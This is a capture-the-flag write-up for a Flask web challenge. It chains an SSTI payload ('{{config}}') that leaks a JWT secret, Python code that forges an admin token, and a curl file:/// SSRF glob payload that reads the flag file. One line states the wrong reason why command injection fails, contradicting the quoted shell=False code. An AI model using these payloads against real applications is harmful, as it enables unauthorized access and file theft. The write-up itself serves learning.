


## Rednose Airlines  



The challenge webpage has an `/api/metar` endpoint that requires admin access.  

```python
@app.route('/api/metar')
def metar():
    global request_count
    global timeout_until
    current_time = datetime.now()
    if timeout_until and current_time < timeout_until:
        remaining_time = timeout_until - current_time
        return "Timeout! {}".format(remaining_time), 429
    if request.cookies.get('auth'):
        try:
            decode_jwt = jwt.decode(request.cookies.get('auth'), JWTKey, algorithms=['HS256'])
            if decode_jwt['id'] == 'admin' and decode_jwt['isAdmin'] == True:
                request_count += 1
                if request_count >= RATE_LIMIT_REQUESTS:
                    timeout_until = current_time + RATE_LIMIT_TIMEOUT
                    request_count = 0 
                airport = request.args.get('airport')
                result = subprocess.run(['curl', airport], shell = False, stdout=subprocess.PIPE, stderr=subprocess.DEVNULL, text=True)                    
                return result.stdout
            else:
                return render_template_string('You are not admin.')
        except Exception as e:
            print(e)
            return send_file("./cat/fail.jpg", mimetype='image/jpg') # BAD JWT
    else:
        return render_template_string('<script>alert("You are not logged in.");history.back()</script>')
```

The backend already has `guest` and `admin` default users, and uses JWT tokens for authentication.  

The JWT secret key is `50` characters long and randomly generated so it can't be easily bruteforced.  

```python
JWTKey = ''.join(random.choices(string.ascii_letters, k=50))
app.config['JWTKey'] = JWTKey

users = [
    {"id": "admin", "pw": "{{REDACTED}}"},
    {"id": "guest", "pw": "guest"},
]
```

Immdiately, we can notice an SSTI vuln in the error rendering, as the code uses a format string to interpolate `form_id` into the error message.  

Although we can control `form_id`, there is also a length cap of `3-10` and a whitelist being enforced on our payload.  

```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        if request.cookies.get('auth'):
            return render_template_string('<script>alert("You are already logged in.");history.back()</script>')
        return render_template('login.html')
    elif request.method == 'POST':
        form_id = request.form['id']
        form_pw = request.form['pw']
        print(form_id, form_pw)
        if len(form_id) > 10:
            return "Too Long"
        elif len(form_id) < 3:
            return "Too Short"
        elif not re.search(r"^[A-Za-z{}]*$", form_id):
            return "Blacklist Word"

        user = next((user for user in users if user['id'] == form_id), None)
        if user and user['pw'] == form_pw:
            payload = {
                'id': form_id,
                'isAdmin': (form_id == 'admin'),
            }
            encode_jwt = jwt.encode(payload, JWTKey, algorithm='HS256')
            resp = make_response(render_template_string('Login Success!'))
            resp.set_cookie('auth', encode_jwt)
            return resp
        else:
            return render_template_string('{form_id} is not registered, or the password is incorrect.'.format(form_id=form_id))
```

Since the JWT key is stored in `app.config`, we can simply submit `{{config}}` under `form_id` to leak the entire `config` dictionary, along with the key.  



We can then forge our own admin token and access the `/api/metar` endpoint.  

```python
token = jwt.encode({
    'id': 'admin',
    'isAdmin': True
}, key,algorithm='HS256')
```

In the `/api/metar` endpoint, we are allowed to pass in an `airport` argument, which a `curl` command will be run on. A rate-limit is enforced, and we are restricted to only `10` commands every `5` minutes.  

Command injection isn't possible here since `subprocess.run()` is called with `shell=True`.  

```python
@app.route('/api/metar')
def metar():
    global request_count
    global timeout_until
    current_time = datetime.now()
    if timeout_until and current_time < timeout_until:
        remaining_time = timeout_until - current_time
        return "Timeout! {}".format(remaining_time), 429
    if request.cookies.get('auth'):
        try:
            decode_jwt = jwt.decode(request.cookies.get('auth'), JWTKey, algorithms=['HS256'])
            if decode_jwt['id'] == 'admin' and decode_jwt['isAdmin'] == True:
                request_count += 1
                if request_count >= RATE_LIMIT_REQUESTS:
                    timeout_until = current_time + RATE_LIMIT_TIMEOUT
                    request_count = 0 
                airport = request.args.get('airport')
                result = subprocess.run(['curl', airport], shell = False, stdout=subprocess.PIPE, stderr=subprocess.DEVNULL, text=True)                    
                return result.stdout
                ...
```

We can use the `file:///` protocol to perform SSRF and read local files.  

The Dockerfile shows that the flag file is appended with `4` random alphabets when the challenge docker is created, and is stored in the same directory as the app code.  

```dockerfile
# 베이스 이미지 설정
FROM python:3.8

# 작업 디렉토리 설정
WORKDIR /deploy

# Python 스크립트 및 텍스트 파일 복사
COPY ./deploy /deploy/

# Flask 설치
RUN pip install flask pyjwt

RUN FLAG=$(cat /dev/urandom | tr -dc 'a-z' | fold -w 4 | head -n 1); mv /deploy/flag.txt /deploy/flag_$FLAG.txt

EXPOSE 13000
# main.py 실행
CMD ["python", "/deploy/main.py"]
```

Because of the rate limit, bruteforcing the random alphabets is highly unfeasible. Instead, we can use URL globbing to match the file name instead.  

```
file:///deploy/flag_[a-z][a-z][a-z][a-z].txt
```

Submitting SSRF payload will then get the endpoint to display the flag.  

Flag: `DH{ThrvGkkoUso6L6s4LHZUPIUnEXmzjUO8RlJMX8vu2V}`